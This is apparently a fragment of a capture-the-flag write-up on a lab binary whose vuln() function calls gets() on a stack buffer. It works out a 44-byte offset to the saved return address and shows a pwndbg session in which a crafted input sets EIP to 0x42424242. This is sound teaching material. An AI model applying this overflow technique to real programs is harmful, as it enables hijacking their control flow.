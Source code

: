 Decompiling with IDA:

```
int vuln()
{
  int return_address; // eax
  char v2[36]; // [esp+0h] [ebp-28h] BYREF

  gets(v2);
  return_address = get_return_address();
  return printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", return_address);
}
```

The return_address int is 4 bytes, plus the char buffer is 36 bytes, plus the EBP is 4 bytes.

After those 44 we are overwriting the return address. Let's verify it:

```python
>>> 'A'*44 + 'BBBB'
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB'
```

```
pwndbg> run
Starting program:  
No executable file specified.
Use the "file" or "exec-file" command.
pwndbg> exec-file vuln
pwndbg> run
Starting program: /home/connor/Desktop/vuln 
[Thread debugging using libthread_db enabled]                                                              
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Okay, time to return... Fingers Crossed... Jumping to 0x42424242

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────
*EAX  0x41
*EBX  0x41414141 ('AAAA')
 ECX  0x0
 EDX  0x0
*EDI  0xf7ffcb60 (_rtld_global_ro) ◂— 0x0
*ESI  0x8049350 ◂— endbr32 
*EBP  0x41414141 ('AAAA')
*ESP  0xffffd5f0 ◂— 0xffffff00
*EIP  0x42424242 ('BBBB')
────────────────────────────────────[ DISASM / i386 / set emulate on ]─────────────────────────────────────
Invalid address 0x42424242

...
```

